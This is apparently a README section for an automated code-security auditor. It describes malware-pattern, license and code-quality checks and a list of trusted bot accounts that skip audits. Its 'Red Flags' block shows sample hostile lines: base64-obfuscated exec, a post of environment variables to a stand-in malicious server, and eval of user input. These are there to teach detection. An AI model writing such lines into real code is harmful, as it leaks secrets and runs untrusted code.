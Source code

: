 ### 4. Malicious Pattern Detection
**Category:** `malware`

Identifies suspicious code patterns:
- Code obfuscation (base64, hex encoding, eval chains)
- Unexpected network connections
- File system manipulation
- Process spawning
- Dynamic code execution
- Cryptomining indicators

**Red Flags:**
```python
# ❌ Obfuscated code
exec(base64.b64decode('aW1wb3J0IG9z').decode())

# ❌ Suspicious network call
requests.post('http://malicious-server.com', data=env_vars)

# ❌ Unrestricted eval
eval(user_input)
```

### 5. License Compliance
**Category:** `license`

Validates dependency licenses:
- **Allowed:** MIT, Apache-2.0, BSD-3-Clause, ISC, Python-2.0
- **Forbidden:** AGPL (copyleft), Proprietary, Commercial
- Detects license conflicts
- Reports unlicensed dependencies

### 6. Code Quality Scanning
**Category:** `code_quality`

Static analysis for security-relevant issues:
- Uses `bandit` for Python security linting
- Detects insecure functions (assert_used, md5/sha1 hashing)
- Finds weak cryptography
- Identifies dangerous file permissions
- Reports insecure deserializations

## Configuration

### Trusted Agents

Define accounts that bypass security audits in `config/agents/*.yaml`:

```yaml
trusted_agents:
  - username: m0nk111-bot
    role: bot
    trusted: true
    description: "Main bot account for automated tasks"
  
  - username: m0nk111-qwen-agent
    role: developer
    trusted: true
    description: "Qwen-based coding agent"
```
